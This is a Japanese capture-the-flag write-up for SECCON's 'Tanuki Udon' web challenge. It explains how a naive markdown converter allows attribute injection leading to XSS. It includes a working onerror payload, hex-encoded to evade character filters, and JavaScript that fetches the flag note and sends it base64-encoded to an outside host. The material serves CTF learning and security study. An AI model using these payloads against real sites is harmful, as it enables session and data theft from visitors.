


# Tanuki Udon:web:149pts
Inspired by [Udon (TSG CTF 2021)](https://github.com/tsg-ut/tsgctf2021/tree/main/web/udon)  

- Challenge: [http://tanuki-udon.seccon.games:3000](http://tanuki-udon.seccon.games:3000)  
- Admin bot: [http://tanuki-udon.seccon.games:1337](http://tanuki-udon.seccon.games:1337)  

[Tanuki_Udon.tar.gz](Tanuki_Udon.tar.gz) 486d9042a11556b4d9ede214069aa61650e9bbf9  

# Solution
チャレンジとBotのURL、ソースが渡される。  
チャレンジにアクセスすると、ノートを投稿できるサービスのようだ。  
  
複数のノートを作ることができ、投稿したノートは閲覧することもできる。  
  
試しにノートを三つ作った際の、ページHTMLソースの主要箇所は以下の通りであった。  
```html
~~~
<body>
  <main class="container">
    <header>
      <!-- In fact, this emoji is not tanuki. It's raccoon -->
      <h1>🦝 Tanuki Udon</h1>
    </header>
    <section>
      <p>Your notes:</p>
      <ul>
        
          <li><a href="/note/2d65f9ed6a51ebe4">test1</a></li>
        
          <li><a href="/note/93251dfe8bedef48">test2</a></li>
        
          <li><a href="/note/66d0f9a20f169618">test3</a></li>
        
        
      </ul>
      <a href="/clear">Clear notes</a>
    </section>
~~~
```
`/note/乱数`にノートが保存されるようだ。  
BotがあるためXSS問題と予想するが、簡単にXSSすることはできない。  
初めにBotのソースを見てフラグの場所を探す。  
ソースは以下の通りであった。  
```js
import puppeteer from "puppeteer";

const FLAG = process.env.FLAG ?? console.log("No flag") ?? process.exit(1);

const APP_HOST = "web";
const APP_PORT = "3000";
export const APP_URL = `http://${APP_HOST}:${APP_PORT}`;

// Flag format
if (!/^SECCON{[\x20-\x7f]+}$/.test(FLAG)) {
  console.log("Bad flag");
  process.exit(1);
}

const sleep = async (ms) => new Promise((resolve) => setTimeout(resolve, ms));

export const visit = async (url) => {
  console.log(`start: ${url}`);

  const browser = await puppeteer.launch({
    headless: "new",
    executablePath: "/usr/bin/chromium",
    args: [
      "--no-sandbox",
      "--disable-dev-shm-usage",
      "--disable-gpu",
      '--js-flags="--noexpose_wasm"',
    ],
  });

  const context = await browser.createBrowserContext();

  try {
    // Create a flag note
    const page1 = await context.newPage();
    await page1.goto(APP_URL, { waitUntil: "networkidle0" });
    await page1.waitForSelector("#titleInput");
    await page1.type("#titleInput", "Flag");
    await page1.waitForSelector("#contentInput");
    await page1.type("#contentInput", FLAG);
    await page1.waitForSelector("#createNote");
    await page1.click("#createNote");
    await sleep(1 * 1000);
    await page1.close();

    // Visit the given URL
    const page2 = await context.newPage();
    await page2.goto(url, { timeout: 3000 });
    await sleep(90 * 1000);
    await page2.close();
  } catch (e) {
    console.error(e);
  }

  await context.close();
  await browser.close();

  console.log(`end: ${url}`);
};
```
`Flag`というタイトルでフラグが書かれたノートを投稿し、その後に送信したURLにアクセスしている。  
XSSでそのノートの内容を取得する、またはXS-LeaksでノートのURLをリークする必要がありそうだ。  
仮にXSSであればアクセスするサイトは`APP_HOST`のみでよく、フラグの文字種やsleep時間が怪しいためおそらくXS-Leaksの類であろうと考えられる。  
しかし、まずは簡単なXSSの方針を先に攻める。  
チャレンジのソースは以下の通りであった。  
```js
const crypto = require('node:crypto');
const express = require('express');
const session = require('express-session');
const db = require('./db');
const markdown = require('./markdown');

const PORT = '3000';

const app = express();

app.use(express.urlencoded({ extended: false }));
app.use(session({
  secret: crypto.randomBytes(32).toString('base64'),
  resave: true, 
  saveUninitialized: true, 
}));
app.set('view engine', 'ejs');

app.use((req, res, next) => {
  if (!req.session.userId) {
    req.session.userId = db.createUser().id;
  }
  req.user = db.getUser(req.session.userId);
  next();
})

app.use((req, res, next) => {
  if (typeof req.query.k === 'string' && typeof req.query.v === 'string') {
    // Forbidden :)
    if (req.query.k.toLowerCase().includes('content')) return next();

    res.header(req.query.k, req.query.v);
  }
  next();
});

app.get('/', (req, res) => {
  res.render('index', { notes: req.user.getNotes() });
});

app.get('/clear', (req, res) => {
  db.deleteUser(req.user.id);
  req.session.destroy();
  res.redirect('/');
});

app.get('/note/:noteId', (req, res) => {
  const { noteId } = req.params;
  const note = db.getNote(noteId);
  if (!note) return res.status(400).send('Note not found');
  res.render('note', { note });
});

app.post('/note', (req, res) => {
  const { title, content } = req.body;
  req.user.addNote(db.createNote({ title, content: markdown(content) }));
  res.redirect('/');
});

app.listen(PORT, '0.0.0.0', () => {
  console.log(`Listening on port ${PORT}`);
});
```
送信されたノートの内容を`markdown`に渡している。  
markdown.jsの中身は以下の通りであった。  
```js
const escapeHtml = (content) => {
  return content
    .replaceAll('&', '&amp;')
    .replaceAll(`"`, '&quot;')
    .replaceAll(`'`, '&#39;')
    .replaceAll('<', '&lt;')
    .replaceAll('>', '&gt;');
}

const markdown = (content) => {
  const escaped = escapeHtml(content);
  return escaped
    .replace(/!\[([^"]*?)\]\(([^"]*?)\)/g, `</img>`)
    .replace(/\[(.*?)\]\(([^"]*?)\)/g, `<a href="$2">$1</a>`)
    .replace(/\*\*(.*?)\*\*/g, `<strong>$1</strong>`)
    .replace(/  $/mg, `<br>`);
}

module.exports = markdown;
```
HTMLエスケープを行い、`img`、`a`、`strong`、`br`のタグのみMarkdown記法からHTMLに置換している。  
ここで、入れ子になった壊れたタグを作成して、イベントハンドラなどを設定できるのではないかと考える。  
勘で試していると面白い挙動を発見した。  
以下のようなMarkdownを考える。  
```md
](c)
```
まずは`img`タグが置換されるため以下のようになる。  
```html
</img>](c)
```
次に`a`タグが置換されて以下の通りになる。  
```html
a" src="b"></img></a>
```
`c`が`img`の属性になっている。  
つまり`c`をイベントハンドラなどにすることでXSSが達成できる。  
`"`、`'`、`(`、`)`が使えないが以下のMarkdownでalertさせることができる。  
```md
]( src=1 onerror=alert`xss`//)
```
置換後HTMLは以下の通りになる。  
```md
a" src="b"></img></a>
```
あとは使用できない文字を回避してfecthなどでフラグを取ってやればよい。  
`/`をfetchして得たHTMLの、最初の`a`タグの`href`を再度fetchして、さらにその内容を外部に送信してやるJavaScriptは以下になる。  
```js
fetch("/").then(r => r.text()).then(t => {
  const h = new DOMParser().parseFromString(t, "text/html").querySelector("a")?.href;
  return h ? fetch(h).then(r => r.text()) : null;
}).then(t => t && fetch("http://s4t.pw?s=" + btoa(t)));
```
これでは使えない文字を含んでいるが、Hexエンコードして`setTimeout`でくるめばよい。  
最終的なペイロードは以下になる。  
```md
]( src=1 onerror=setTimeout`\x66\x65\x74\x63\x68\x28\x22\x2f\x22\x29\x2e\x74\x68\x65\x6e\x28\x72\x20\x3d\x3e\x20\x72\x2e\x74\x65\x78\x74\x28\x29\x29\x2e\x74\x68\x65\x6e\x28\x74\x20\x3d\x3e\x20\x7b\x0a\x20\x20\x63\x6f\x6e\x73\x74\x20\x68\x20\x3d\x20\x6e\x65\x77\x20\x44\x4f\x4d\x50\x61\x72\x73\x65\x72\x28\x29\x2e\x70\x61\x72\x73\x65\x46\x72\x6f\x6d\x53\x74\x72\x69\x6e\x67\x28\x74\x2c\x20\x22\x74\x65\x78\x74\x2f\x68\x74\x6d\x6c\x22\x29\x2e\x71\x75\x65\x72\x79\x53\x65\x6c\x65\x63\x74\x6f\x72\x28\x22\x61\x22\x29\x3f\x2e\x68\x72\x65\x66\x3b\x0a\x20\x20\x72\x65\x74\x75\x72\x6e\x20\x68\x20\x3f\x20\x66\x65\x74\x63\x68\x28\x68\x29\x2e\x74\x68\x65\x6e\x28\x72\x20\x3d\x3e\x20\x72\x2e\x74\x65\x78\x74\x28\x29\x29\x20\x3a\x20\x6e\x75\x6c\x6c\x3b\x0a\x7d\x29\x2e\x74\x68\x65\x6e\x28\x74\x20\x3d\x3e\x20\x74\x20\x26\x26\x20\x66\x65\x74\x63\x68\x28\x22\x68\x74\x74\x70\x3a\x2f\x2f\x73\x34\x74\x2e\x70\x77\x3f\x73\x3d\x22\x20\x2b\x20\x62\x74\x6f\x61\x28\x74\x29\x29\x29\x3b`//)
```
これをノートに保存する。  
`http://tanuki-udon.seccon.games:3000/note/e1aff123c52fe572`のようなノートが得られるので、サーバでXSSの結果を待ち受け、Botに報告する(`http://web:3000`に書き換えることに注意)。  
すると以下のようなリクエストが届く。  
```
GET
/?s=PCFET0NUWVBFIGh0bWw+CjxodG1sPgo8aGVhZD4KICA8bWV0YSBjaGFyc2V0PSJ1dGYtOCI+CiAgPGxpbmsgcmVsPSJzdHlsZXNoZWV0IiBocmVmPSJodHRwczovL2Nkbi5qc2RlbGl2ci5uZXQvbnBtL0BwaWNvY3NzL3BpY29AMi9jc3MvcGljby5taW4uY3NzIj4KICA8dGl0bGU+VGFudWtpVWRvbjwvdGl0bGU+CjwvaGVhZD4KPGJvZHk+CiAgPG1haW4gY2xhc3M9ImNvbnRhaW5lciI+CiAgICA8c2VjdGlvbj4KICAgICAgPGgxPkZsYWc8L2gxPgogICAgPC9zZWN0aW9uPgogICAgPGhyPgogICAgPHNlY3Rpb24+CiAgICAgIFNFQ0NPTntGaXJlZm94IExpbmsgPSBLaXRzdW5lIFVkb24gJmx0Oy0mZ3Q7IENocm9tZSBTcGVjdWxhdGlvbi1SdWxlcyA9IFRhbnVraSBVZG9ufQogICAgPC9zZWN0aW9uPgogIDwvbWFpbj4KPC9ib2R5Pgo8L2h0bWw+
```
base64をデコードすると以下になる。  
```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="utf-8">
  <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/@picocss/pico@2/css/pico.min.css">
  <title>TanukiUdon</title>
</head>
<body>
  <main class="container">
    <section>
      <h1>Flag</h1>
    </section>
    <hr>
    <section>
      SECCON{Firefox Link = Kitsune Udon &lt;-&gt; Chrome Speculation-Rules = Tanuki Udon}
    </section>
  </main>
</body>
</html>
```
ノートページが取得できており、エスケープされたflagが書かれていた。  

## SECCON{Firefox Link = Kitsune Udon <-> Chrome Speculation-Rules = Tanuki Udon}